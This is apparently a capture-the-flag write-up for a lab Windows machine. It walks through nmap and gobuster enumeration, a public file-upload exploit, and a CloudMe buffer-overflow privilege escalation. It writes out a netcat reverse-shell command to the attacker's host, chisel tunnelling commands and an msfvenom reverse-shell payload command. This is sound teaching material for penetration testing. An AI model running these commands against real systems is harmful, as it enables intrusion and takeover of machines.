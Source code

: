 ## Nmap Scan:
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:
![contact_pic](images/buff/contact_pic.png)

I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**
![initial_shell_proof](images/buff/initial_shell_proof.png)

Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:
![cloudme_svc](images/buff/cloudme_svc.png)
```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site. </br>
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked: </br>
![privesc](images/buff/privesc.png)
